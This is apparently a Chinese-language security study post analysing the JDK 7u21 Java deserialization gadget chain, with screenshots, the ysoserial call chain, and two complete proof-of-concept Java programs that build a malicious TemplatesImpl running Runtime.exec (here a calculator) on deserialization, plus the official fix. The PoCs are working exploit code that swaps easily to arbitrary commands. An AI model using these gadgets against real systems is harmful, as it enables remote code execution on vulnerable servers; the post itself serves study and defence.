# Java安全学习—JDK7u21链

Author: H3rmesk1t

Data: 2022.03.10

# 前言
在`java`的反序列化中, 有一个经典的漏洞, 在没有存在反序列化漏洞的第三方库的情况下, 可以利用其实现反序列化漏洞的利用, 那就是`jdk`版本`7u21`及以前的版本存在的利用链, 可以利用`jdk`的原生代码实现反序列化漏洞.

# 前置知识
该反序列化漏洞所涉及的知识点都在之前的`Commons-Collections`链中提过了, 这里只做简单的描述.
## TemplatesImpl
先跟进`getTransletInstance`方法, 当`_class==null`时会调用`defineTransletClasses`方法. 接着通过`_class[_transletIndex].newInstance`语句中的`newInstance`方法来调用`_class[_transletIndex]`的无参构造方法, 生成类实例对象. 这里需要注意的是, `getTransletInstance`方法在`newTransformer`方法中也有调用, 并且不需要前置条件即可调用, 所以调用`newTransformer`或`getTransletInstance`方法都可以.

<div align=center></div>

<div align=center></div>

接着跟进`defineTransletClasses`方法, 遍历`_bytecodes(byte[][])`数组, 使用类加载器将字节码转化为`Class`.

<div align=center></div>

## AnnotationInvocationHandler
通过对`TemplatesImpl`类的分析, 我们需要找到一个序列化类来调用`TemplatesImpl`对象的`newTransformer`或`getTransletInstance`方法. 而`AnnotationInvocationHandler`类中的`equalsImpl`方法正好符合.

<div align=center></div>

`AnnotationInvocationHandler#equalsImpl`中存在`var8 = var5.invoke(var1);`语句, 可以通过反射调用`var1`对象的`var5`方法, 当调用`equalsImpl`方法并且想要成功执行到`var5.invoke(var1)`时, 需要满足以下几个条件:
 - var1 ！= this;
 - var1 对象能够转化为 this.type 类型，this.type 应该为 var1 对应类的本类或父类;
 - this.asOneOfUs(var1) 返回 null.

根据上文的分析, 要通过反射执行`TemplatesImpl`对象的方法, `var1`应该为`TemplatesImpl`对象, `var5`应该为`TemplatesImpl`类中的方法, 而`var5`方法是从`this.type`类中获取到的. 通过查看`TemplatesImpl`类, `javax.xml.transform.Templates`接口正好符合, 这里最终会调用`getOutputProperties`方法.

<div align=center></div>

`equalsImpl`方法在`AnnotationInvocationHandler#invoke`中被调用, 需要满足:
 - var2 方法名应该为 equals;
 - var2 方法的形参个数为 1;
 - var2 方法的形参类型为 Object 类型.

<div align=center></div>

## HashMap
在上文中知道了需要找到一个方法, 其在反序列化时对`proxy`调用`equals`方法, 一个常见的场景就是集合`set`, 由于集合的唯一性, 所以`set`中存储的对象不允许重复, 就会涉及到比较操作. 

跟进`HashSet`方法, 在其`readObject`方法中会有一个`map.put(e, PRESENT);`操作.

<div align=center></div>

跟进到`HashMap#put`方法, 会执行`key.equals(k)`操作, 如果`key`为`templates`对象, `k`为`templatesImpl`对象, 则正好可以触发前面的逻辑.

<div align=center></div>

分析一下执行`key.equals(k)`操作的前提条件:
 - HashMap 存入两个 key 的 hash 值相等，并且 indexFor 计算的 i 相等;
 - 前一个 HashMap 对象值的 key 值不等于现在存入的 key 值;
 - 现在存入的 key 值为 templates 对象, 上一个存入的 key 值为 templatesImpl 对象.

跟进`HashMap#hash`方法, `hash`方法中实际调用了传入`k`的`hashCode`方法. 所以实际调用的是`templatesImpl`和`templates`对象的`hashCode`方法. 

<div align=center></div>

`TemplatesImpl`类没有重写`hashCode`方法，调用默认的`hashCode`方法. `templates`对象对应的代理类重写了`hashCode`方法, 实际调用`AnnotationInvocationHandler`类的`hashCodeImpl`方法. 跟进`AnnotationInvocationHandler#hashCodeImple`方法, 这个方法会遍历`this.memberValues`, 然后计算`var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())`.

在`JDK7u21`中使用了一个非常巧妙的方法:
- 当 memberValues 中只有一个 key 和一个 value 时, 该哈希简化成 (127 * key.hashCode()) ^ value.hashCode();
- 当 key.hashCode() 等于 0 时, 任何数异或 0 的结果仍是他本身, 所以该哈希简化成 value.hashCode();
- 当 value 就是 TemplateImpl 对象时, 这两个对象的哈希就完全相等.

```java
private int hashCodeImpl() {
    int var1 = 0;

    Entry var3;
    for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
        var3 = (Entry)var2.next();
    }

    return var1;
}
```

因此现在最终的问题就是找到一个字符串其`hashCode`为`0`, 这里直接给出一个计算方法, 其中一个答案为`f5a5a608`.

```java
for (long i = 0; i < 9999999999L; i++) {
    if (Long.toHexString(i).hashCode() == 0) {
        System.out.println(Long.toHexString(i));
    }
}
```

## LinkedHashSet
由于是要通过反序列化来触发调用链, 所以需要在`readObject`反序列化方法中寻找是否有调用`map`的`put`方法. 在`HashSet`的`readObject`反序列化方法中会循环往`map`对象中`put`值. 创建`LinkedHashSet`对象时, 首先写入`templatesImpl`对象, 然后写入`templates`. 然后调用`writeObject`写入`LinkedHashSet`对象. 使用`LinkedHashSet`来添加值从而来保证值的加入顺序.

<div align=center></div>

# JDK7u21调用链
`JDK7u21`链在`ysoserial`里的调用链如下:

```java
LinkedHashSet.readObject()
  LinkedHashSet.add()
    ...
      TemplatesImpl.hashCode() (X)
  LinkedHashSet.add()
    ...
      Proxy(Templates).hashCode() (X)
        AnnotationInvocationHandler.invoke() (X)      
          AnnotationInvocationHandler.hashCodeImpl() (X)
            String.hashCode() (0)
            AnnotationInvocationHandler.memberValueHashCode() (X)
              TemplatesImpl.hashCode() (X)
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
                        Class.newInstance()
                          ...
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

# POC
 - POC1

```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 下午
 */
public class ExploitOfJDK7u21 {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateEvilTemplates() throws Exception {

        // 生成恶意的 bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractMethodError.class));
        CtClass ctClass = pool.makeClass("JDK7u21Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // 实例化类并设置属性
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        return  templatesImpl;
    }

    public static void exp() throws Exception {

        TemplatesImpl templates = generateEvilTemplates();
        HashMap hashMap = new HashMap();
        hashMap.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, hashMap);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(ExploitOfJDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        hashMap.put("f5a5a608", templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object object = (Object)ois.readObject();
        System.out.println(object);
        ois.close();
    }

    public static void main(String[] args) {
        try {
            exp();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

 - POC2

```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.*;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 下午
 */
public class Poc {
    //序列化
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    //反序列化
    public static Object unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }

    //通过反射为obj的属性赋值
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    //封装了之前对恶意TemplatesImpl类的构造
    private static TemplatesImpl getEvilTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();//ClassPool对象是一个表示class文件的CtClass对象的容器
        CtClass cc = pool.makeClass("Evil");//创建Evil类
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));//设置Evil类的父类为AbstractTranslet
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);//创建无参构造函数
        cons.setBody("{ Runtime.getRuntime().exec(\"calc\"); }");//设置无参构造函数体
        cc.addConstructor(cons);
        byte[] byteCode = cc.toBytecode();//toBytecode得到Evil类的字节码
        byte[][] targetByteCode = new byte[][]{byteCode};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCode);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "xx");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    public static void main(String[] args) throws Exception {
        expHashSet();
//        expLinkedHashSet();
    }

    public static void expLinkedHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    }


    public static void expHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();
        map.put("f5a5a608", new int[]{-16});

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        HashSet set = new HashSet();
        set.add(proxy);
        set.add(templates);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    }
}
```

# Fixed
官方的修复方案: 在`sun.reflect.annotation.AnnotationInvocationHandler`类的`readObject`函数中, 原本有一个对`this.type`的检查, 在其不是`AnnotationType`的情况下会抛出一个异常. 但是捕获到异常后没有做任何事情, 只是将这个函数返回了, 这样并不影响整个反序列化的执行过程. 在新版中, 将这个返回改为了抛出一个异常, 会导致整个序列化的过程终止. 但是这个修复方式实际上仍然存在问题, 这也导致后面的另一条原生利用链`JDK8u20`.

<div align=center></div>